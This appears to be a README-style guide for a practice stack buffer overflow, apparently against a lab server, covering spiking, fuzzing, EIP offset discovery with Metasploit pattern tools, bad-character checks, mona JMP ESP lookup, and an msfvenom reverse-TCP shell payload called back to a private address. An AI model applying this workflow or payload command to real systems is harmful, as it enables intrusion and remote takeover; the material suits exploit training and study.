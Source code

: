 # Buffer overflow guide

## SPIKE
Spike the target using ```generic_send_tcp 192.168.1.107 9999 test.spk 0 0```
	-example spike-
	```s_readline();
	s_string("STATS ");
	s_string_variable("FUZZ");
	```
## Fuzzing
1. Once we have located a vulnerable command, we need to find the break point
	Utilize the ```1_fuzz.py``` script to test for the breaking point of the server

## Finding the offset
1. Use ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2900```
	**-l** length // Use a length close to where your program crashed
2. Start ```2_offset.py``` to discover the offset at which the program crashes at
3. Run ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2900 -q 386F4337```
	**-l** length // Same as above
	**-q** EIP from offset.py
4. You should now have an exact match for the pattern offset

## Overwriting the EIP
1. Modify ```3_overwrite.py``` using the offset discovered from ```2_offset.py``` 
2. You should now see your EIP holding the 4 bytes added by ```2_offset.py```

## Find those bad characters
1. Fire the ```4_badchars.py``` script, making sure to edit the proper variables
2. When the program terminates, follow the ESP dump
3. You must now check visually for bad characters, and remember them
	* You will include these for shellcode generation!

## Locating modules via MONA
1. Within immunity, run the ```!mona modules``` command, you will be searching for a .dll or an .exe that has **false** across the board.
2. Look for a JMP ESP using ```jmp -r ESP -m essfunc.dll```
	* Replace "essfunc.dll" with a module found from step 1.
3. Follow the address into CPU view, then enter **F2** to create a breakpoint
	* Execute ```5_mona.py```, changing the addr in into LITTLE ENDIAN format
	* Your address should now be reflected in your **EIP**

## Create the shellcode / gain shell
1. Run ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.245 LPORT=5555 EXITFUNC=thread -f python -a x86 -b "\x00"```
	* **-b** bad characters discovered earlier
2. Execute ```6_shellcode.py``` to spawn a shell :^)

# Aditional information

Change the working config of mona
* ```!mona config -set workingfolder c:\mona```

## Automate bad chars
1. Create a bad character list 
	```!mona bytearray -cpb "\x00"```
2. Compare to our array.bin
	```!mona compare -f c:\mona\bytearray.bin <address>```
	* The address will be your ESP after running ```4_badchars.py```
	